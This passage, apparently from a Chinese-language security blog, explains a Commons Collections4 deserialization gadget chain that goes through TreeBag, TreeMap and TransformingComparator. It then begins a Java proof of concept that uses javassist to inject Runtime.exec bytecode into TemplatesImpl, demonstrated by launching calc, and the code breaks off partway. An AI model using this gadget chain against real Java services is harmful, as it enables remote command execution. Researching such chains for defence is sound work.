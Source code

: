 ![image-20220719101953834](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719101953834.png)

类似优先级队列，对于这种有序的储存数据的集合，反序列化数据时一定会对其进行排序动作，而 TreeBag 则是依赖了 TreeMap 在 put 数据时会调用 compare 进行排序的特点来实现数据顺序的保存。

![image-20220719102219426](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719102219426.png)

compare 方法中调用了 comparator 进行比较，那我们就可以使用 TransformingComparator 触发后续的逻辑。

poc构造：

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonCollections4_treebug {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    public static void main(String[] args) throws Exception {

        byte[] code = getTemplatesImpl("calc");
        byte[][] bytecodes = {code};

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", bytecodes);
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        /**
         * TrAXFilter 构造函数能直接触发 所以不用利用 invoke 那个
```